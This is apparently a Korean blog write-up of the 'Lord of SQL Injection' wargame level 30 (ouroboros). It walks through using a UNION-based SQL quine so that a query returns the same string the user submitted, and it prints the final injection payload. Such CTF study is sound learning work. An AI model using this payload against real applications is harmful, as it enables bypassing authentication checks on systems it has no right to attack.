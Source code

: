```yaml
---
title: LOS - 30번 ouroboros
category: Lord of SQL Injection
---
```


# [30] ouroboros

## 문제

<img  src="https://img1.daumcdn.net/thumb/R1280x0/?scode=mtistory2&fname=https%3A%2F%2Fblog.kakaocdn.net%2Fdn%2FPLStF%2FbtrpwOBniqR%2Fk4UuZ0WXEm8MfJKfJHtKe0%2Fimg.png">

## 풀이

쿼리의 결과와 사용자의 입력값이 일치하는 지 검증하는 문제이다.

pw를 찾아내면 쉽게 풀 수 있는 문제이기 때문에 아마 테이블 내부에 pw 값이 없을 것 같았다...

확인을 위해 where절을 True로 만들어줄 수 있는 쿼리를 주입해보았다.

<img  src="https://img1.daumcdn.net/thumb/R1280x0/?scode=mtistory2&fname=https%3A%2F%2Fblog.kakaocdn.net%2Fdn%2Fbj49zN%2FbtrpqylywrC%2FthfadP8wuzaMwvKIL3k6pk%2Fimg.png">

테이블에 pw가 있다면 값이 뜰텐데... 감감무소식이었다.

아무래도 예상했듯 테이블에 pw가 없는 것 같았다.

다음은 union을 사용해 1을 기존 테이블에 붙여보았다.

<img  src="https://img1.daumcdn.net/thumb/R1280x0/?scode=mtistory2&fname=https%3A%2F%2Fblog.kakaocdn.net%2Fdn%2Fcd7R8j%2FbtrpyiWt8tZ%2FpmP1DlnD3fLOQjcku3LhT0%2Fimg.png">

이런 식으로 pw를 넣어주면 될 것 같은데...

문제는 쿼리의 결과인 pw 값과 사용자 입력값이 같아야한다는 점에 있다.

어떻게 해주면 될 지 답이 안나와서 힌트를 서치해보았다.

답은 Quine이었다.

Quine이란 자기자신의 소스 코드를 그대로 반환하는 프로그램을 말한다.

Sql로도 Quine을 만들 수가 있는데, 사실 직접 로직을 생각해내는 것 보다는 서치의 힘을 빌려야하는 것 같다.
 
다음은 대표적인 Quine Query의 예시이다.

```sql
SELECT REPLACE(REPLACE('SELECT REPLACE(REPLACE("$",CHAR(34),CHAR(39)),CHAR(36),"$")',CHAR(34),CHAR(39)),CHAR(36),'SELECT REPLACE(REPLACE("$",CHAR(34),CHAR(39)),CHAR(36),"$")');
```

이를 적용하여 만든 최종 쿼리문은 다음과 같다.

```
'union select replace(replace('"union select replace(replace("$",char(34),char(39)),char(36),"$")%23',char(34),char(39)),char(36),'"union select replace(replace("$",char(34),char(39)),char(36),"$")%23')%23
```

## 결과

<img  src="https://img1.daumcdn.net/thumb/R1280x0/?scode=mtistory2&fname=https%3A%2F%2Fblog.kakaocdn.net%2Fdn%2Fs6Ugl%2Fbtrpu2sSfkX%2Fl9Y0Z3lPlbSJ6pG9V72RcK%2Fimg.png">